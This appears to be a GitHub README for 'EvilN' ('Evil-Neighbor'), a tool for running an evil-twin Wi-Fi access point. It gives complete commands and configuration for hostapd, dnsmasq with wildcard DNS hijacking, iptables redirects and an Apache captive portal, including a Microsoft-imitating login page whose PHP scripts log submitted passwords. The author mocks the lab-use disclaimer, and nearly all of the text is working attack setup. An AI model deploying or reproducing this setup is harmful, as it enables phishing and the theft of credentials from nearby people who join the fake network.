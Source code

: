 # EvilN -> Evil-Neighbor

if you love your neighbors, this tool is for you :)

Just kiding (not really... )

Any use of this tool is at your own risk, this tool should be used in a lab environment  (not really... )

## If you like things done authomatically, Use:
```python
python3 EvilN.py --iface wlan0 --ssid "MyLan" --band 2.4 --channel 1 --network 10.0.0.0/24 --CaptivePortal microsoft
```
```python
python3 EvilN.py --iface wlan0 --ssid "MyLan" --band 2.4 --channel 1 --network 10.0.0.0/24 --CaptivePortal default
```
```python
python3 EvilN.py --iface wlan0 --ssid "MyLan" --band 5 --channel 36 --network 10.0.0.0/24 
```


## If you like things done manually, Use:

### 1) Installation all pachages:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo apt install -y hostapd dnsmasq lighttpd php
```

### 2) Setting up wlan0 Interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up
```

### 3) configure dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1
```

### 4.A) configure hostapd.conf file (2.4 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```

### 4.B) configure hostapd.conf file (5 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=a
channel=36
auth_algs=1
wmm_enabled=1
```

### 5) configure a2enmod:
```bash
sudo systemctl start apache2
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

### 5) Create captive Foles:
```bash
sudo mkdir -p /var/www/captive
```

### 6.A) Create Web Captive Portal (Default):
```bash
sudo mv index.html /var/www/captive/
sudo mv save.php /var/www/captive/
```

### 6.B) Create Web Captive Portal (Microsoft):
```bash
sudo mv Microsoft/index.html /var/www/captive/
sudo mv Microsoft/save.php /var/www/captive/
sudo mv Microsoft/password.php /var/www/captive/
sudo mv Microsoft/save2.php /var/www/captive/
sudo mv Microsoft/microsoft.svg /var/www/captive/
```

### 7) Create log file:
```bash
sudo touch /var/log/ca.log
```

### 8) Permission for file:
```bash
sudo chown www-data:www-data /var/log/ca.log
sudo chmod 640 /var/log/ca.log
```

### 9.A) Create Vhost (default):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive
    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```

### 9.B) Create Vhost (Microsoft):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive

    <Directory /var/www/captive>
        AllowOverride None
        Require all granted
        Options -MultiViews
    </Directory>

    Alias /hotspot-detect.html /var/www/captive/index.html
    Alias /generate_204       /var/www/captive/index.html
    Alias /connecttest.txt    /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/(hotspot-detect\.html|generate_204|connecttest\.txt)$
    RewriteRule ^/?(save\.php|password\.php|save2\.php|microsoft\.svg)$ - [L]

    RewriteCond %{REQUEST_FILENAME} -f [OR]
    RewriteCond %{REQUEST_FILENAME} -d
    RewriteRule ^ - [L]
    RewriteRule ^ /index.html [L]
    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
    Header always set X-VHost "captive-portal"
    AddType image/svg+xml .svg .svgz
</VirtualHost>
```

### 10) Start a2ensite:
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


### 11) Create IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
```

### 12) start:
```bash
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### Kill the process:
```bash
sudo pkill dnsmasq
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -D PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
sudo rm dnsmasq.conf
sudo rm hostapd.conf
sudo rm /etc/apache2/sites-available/captive.conf
sudo rm /var/log/ca.log
sudo rm -r /var/www/captive/
sudo systemctl stop apache2
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip link set wlan0 up
```
